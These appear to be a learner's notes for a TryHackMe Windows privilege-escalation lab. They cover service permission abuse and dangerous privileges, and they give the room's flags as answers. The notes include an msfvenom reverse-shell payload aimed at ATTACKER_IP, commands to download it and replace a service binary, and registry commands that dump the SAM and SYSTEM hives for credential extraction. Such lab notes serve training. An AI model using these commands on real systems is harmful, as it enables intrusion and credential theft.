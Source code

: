 **Windows Services**

- ``sc qc`` understand service structure - ``BINARY_PATH_NAME`` executable, ``SERVICE_START_NAME`` account used to run the service
- All service configs are stored on the registry @ ``HKLM\SYSTEM\CurrentControlSet\Services\``

**Insecure Permissions on Service Executable**

- ``sc qc`` check service
- ``icacls`` check permissions on service executable - if lower permission we can overwrite with payload, and service will execute.
- ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`` create payload
- ``python3 -m http.server``
- pull from powershell with ``wget http://10.x.x.x:8000/rev-svc.exe -O rev-svc.exe``
- replace service executable with payload ``move Wservice.exe Wservice.exe.bkp`` and ``move rev-svc.exe Wservice.exe``
- and grant permissions with ``icalcs WService.exe /grant Everyone:F``
- start up netcat listener
- restart service ``sc stop windowsscheduler`` ``sc start windowsscheduler`` (with powershell you need sc.exe as sc = set-content)

##   Answer the questions below

**Get the flag on svcusr1's desktop.**

- Follow Insecure Permissions on Service Executable Steps
- THM{AT_YOUR_SERVICE}


**Get the flag on svcusr2's desktop.**

- Follow Unquoted Service Paths
- THM{QUOTES_EVERYWHERE}

**Get the flag on the Administrator's desktop.**

- Follow Insecure Service Permissions
- THM{INSECURE_SVC_CONFIG}

* * * 

## Task 6 - Abusing dangerous privileges 

Windows Privileges:

- ``whoami /priv`` check privileges. [complete list of windows priv](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). list of exploitable priveleges [Priv2Admin](https://github.com/gtworek/Priv2Admin)

Backup SAM and SYSTEM hashes:

- ``reg save hklm\system C:\Users\THMBackup\system.hive``
- ``reg save hklm\sam C:\Users\THMBackup\sam.hive``

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox.
